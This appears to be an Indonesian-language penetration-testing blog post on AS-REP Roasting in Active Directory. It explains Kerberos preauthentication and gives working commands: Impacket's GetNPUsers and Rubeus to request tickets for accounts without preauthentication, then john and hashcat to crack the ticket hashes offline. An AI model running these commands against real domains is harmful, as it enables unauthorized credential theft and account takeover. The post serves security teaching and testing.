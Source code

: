 ```yaml
---
title: Eksploitasi AS-REP Roasting (Kerberos) pada Active Directory
date: 2024-01-05 07:00:00 +07:00
modified: 2024-01-05 07:00:00 +07:00
tags:
  - "Windows Infrastructure Pentest"
  - "Active Directory Pentest"
description: AS-REP Roasting adalah serangan yang menargetkan Authentication Service (AS) pada Kerberos untuk menyerang Domain User yang rentan karena tidak mengaktifkan Kerberos Preauthentication.
image: /assets/img/as-rep-roasting-vs-kerberoasting.png
---
```


Di dalam serangan AS-REP Roasting, penyerang akan menargetkan protokol Kerberos untuk mengekstraksi Domain User yang rentan karena menonaktifkan Kerberos Preauthentication. Terjadinya miskonfigurasi ini disebabkan karena opsi **Do not require Kerberos preauthentication** diaktifkan.

![Kerberos Preauthentication](../../assets/img/20240226-kerberos-preauthentication-as-rep.png)

Pada skenario ini, penyerang akan meminta Ticket pengguna yang rentan dari Authentication Service (AS) milik protokol Kerberos. Ticket yang berhasil diperoleh pada dasarnya menyimpan kredensial milik pengguna tersebut, tetapi kredensial itu terenkripsi dalam bentuk Hash.

Bermodalkan Ticket yang sudah diperoleh, penyerang dapat mencoba untuk membongkar Hash tersebut secara **Offline**. Jika Hash-nya berhasil di-crack, maka penyerang dapat Login menggunakan kredensial pengguna tersebut.

## Nice to Know

Sebelum kita lanjutkan, di dalam Key Distribution Center (KDC) pada protokol Kerberos di lingkungan Active Directory, terdapat dua layanan utama:

1. Authentication Service (AS) 
2. Ticket-Granting Service (TGS)

Yang akan kita manfaatkan untuk melakukan AS-REP Roasting adalah layanan Authentication Service (AS), dan AS-REP adalah singkatan dari **Authentication Service Reply**, yang di mana isi dari AS-REP itu sendiri adalah sebuah Ticket yang biasa disebut sebagai TGT (Ticket Granting Ticket).

![Kerberos Preauthentication](../../assets/img/as-rep-roasting-vs-kerberoasting.png)

Sebagai catatan kecil, protocol **Kerberos** biasanya terletak dan menyatu dengan mesin Domain Admin, serta Port yang digunakan itu biasanya `Port 88`.

> **Kerberos Protocol** => **Port 88**

<h1 class="header-group">Proof of Concept</h1>
# 1. Capture the AS-REP

Sebagai contoh, di sini kita akan menggunakan modul dari `Impacket` untuk melakukan permintaan pada Authentication Service (AS).

**Installation**
Linux (Debian Based):
```
sudo apt install pipx -y
sudo python3 -m pipx install impacket
```

Kali Linux:
```
sudo apt install impacket-scripts -y
```

Atau kalian juga bisa menyesuaikan instalasinya dengan cara mengunjungi Repository <https://github.com/fortra/impacket>.

Jika sudah terinstal, kita bisa menggunakan modul `GetNPUsers.py` dari `Impacket` untuk mendapatkan AS-REP melalui Kerberos dan menargetkan pengguna yang menonaktifkan Preauthentication.

**Command**
```
impacket-GetNPUsers <domain>/<user> -dc-ip <ip domain controller> -request -no-pass
```

![impacket-GetNPUsers for AS-REP Roasting](../../assets/img/20240226-impacket-getnpusers-as-rep-roasting.png)

- **Note:** "fsmith" is a user that has no preauthentication.

## Alternative Tool
Selain menggunakan `Impacket`, kalian juga bisa menggunakan tool `Rubeus.exe` sebagai alternatif bilamana environment yang kalian gunakan untuk Pentest itu berbasis Windows.

Download `Rubeus.exe`:
- <https://github.com/GhostPack/Rubeus>

**Command**
```
Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]
```


# 2. Roasting (Crack the Ticket)

Setelah mendapatkan Ticket, kita masuk ke bagian selanjutnya yaitu Roasting. Pada tahap ini kita dapat menggunakan Tool untuk melakukan Password Cracking seperti `hashcat` atau `john`. Fungsi Tool ini nantinya untuk melancarkan Brute Force pada Hash yang kita dapatkan yang tersimpan di dalam Ticket.

## John
Untuk penggunaan tool `john`, kita perlu memasukan 2 parameter file, yaitu file hasil dari AS-REP yang kita dapatkan dan file yang berisi list password. Untuk file password-nya kalian bisa menggunakan wordlist dari `rockyou.txt`.

**Command**
```
john --wordlist=<password file> <as-rep file>
```

![AS-REP Cracking using JOHN](../../assets/img/20240226-as-rep-tgt-cracking-using-john.png)

## Hashcat (alternative)
Selain menggunakan `john`, kita juga dapat menggunakan `hashcat` untuk melakukan Hash Cracking sebagai Tool alternatif dan kalau boleh jujur, saya pribadi lebih sering menggunakan `hashcat`.

**Command**
```
hashcat -m 18200 -a 0 <as-rep file> <password file>
hashcat -m 18200 -a 0 <as-rep file> <password file> --show
```

![AS-REP Cracking using Hashcat](../../assets/img/20240226-Hashcat-to-Crack-TGTs-1.png)

![AS-REP Cracking using Hashcat](../../assets/img/20240226-Hashcat-to-Crack-TGTs-2.png)
